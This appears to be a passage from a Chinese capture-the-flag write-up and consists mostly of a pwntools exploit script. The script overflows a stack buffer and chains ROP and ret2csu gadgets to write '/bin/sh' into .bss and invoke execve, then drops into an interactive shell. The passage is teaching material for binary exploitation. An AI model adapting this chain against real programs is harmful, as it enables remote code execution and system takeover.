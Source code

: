 ```
    # rsi=r14
    # rdx=r13
    global csu_end_addr
    global csu_front_addr
    payload = p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    return payload

csu_end_addr = 0x000000000040069A
csu_front_addr = 0x0000000000400680
bss_addr = elf.bss()+0x20
gets_plt_addr = elf.plt["gets"]
pop_rdi_addr = 0x4006a3
syscall_addr = 0x40061A
start = 0x4004F0
log.success("bss_addr =&gt; `{``}`".format(hex(bss_addr)))
log.success("gets_plt_addr =&gt; `{``}`".format(hex(gets_plt_addr)))
log.success("pop_rdi_addr =&gt; `{``}`".format(hex(pop_rdi_addr)))
log.success("csu_end_addr =&gt; `{``}`".format(hex(csu_end_addr)))
log.success("csu_front_addr =&gt; `{``}`".format(hex(csu_front_addr)))

offset = 0x78
payload1 = offset * "A" + p64(pop_rdi_addr) + p64(bss_addr) + p64(gets_plt_addr) + 
           p64(start)
# pause()
# gdb.attach(sh, "b *0x400633")
# pause()
sl(payload1)
sl(p64(syscall_addr))

payload2 = offset * "A" + p64(pop_rdi_addr) + p64(bss_addr+8) + p64(gets_plt_addr) + 
           p64(start)
sl(payload2)
sl("/bin/shx00")

payload3 = offset * "A"
payload3 += csu(0, 1, bss_addr, 59, bss_addr+0x20, 0, start)
payload3 += csu(0, 1, bss_addr, 0,  0, bss_addr+8, start)
sl(payload3)
sl("A"*58)
sh.interactive()
```

这里主要是利用了`read(0, bss_addr+0x20), 59)`,然后传入值,即可控制rax的返回值为0x

3b.

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f8f46f338de5a0c5.png)
